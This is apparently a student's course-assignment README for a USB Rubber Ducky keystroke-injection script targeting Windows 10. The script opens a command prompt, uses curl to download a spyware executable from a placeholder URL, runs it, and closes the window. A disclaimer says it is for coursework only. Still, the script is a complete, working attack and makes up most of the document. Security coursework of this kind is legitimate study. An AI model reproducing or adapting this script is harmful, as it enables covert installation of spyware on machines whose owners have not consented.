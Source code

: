 # Spyware Installer - Windows 10
## Hassan Chadad
## CS-683 USB Rubber Ducky Assignment

This ducky script will download a spyware that I created from a url and run it<br/>
Steps to write the script:
1. Open cmd
2. Go to Downloads Folder
3. Download the spyware from URL
4. Run the SPyware
7. Close the cmd

**This script is tended to be for the course's assignment and I don't aim to use it harm or do any real attacks.**

```
REM ---------Open start Menu---------
CONTROL ESCAPE
DELAY 500
REM ---------Type cmd---------
STRING cmd 
DELAY 300
REM ---------Open cmd---------
ENTER
DELAY 1000
REM ---------Go To Downloads Folder---------
STRING cd Downloads
ENTER
DELAY 500
REM ---------Download Spyware from URL---------
STRING curl http://linkWhereIuploadedTheSpyware.exe --output spicy.exe
ENTER
DELAY 10000
REM ---------Start Spyware---------
STRING start spicy.exe
DELAY 3000
REM ---------close cmd---------
ALT F4
```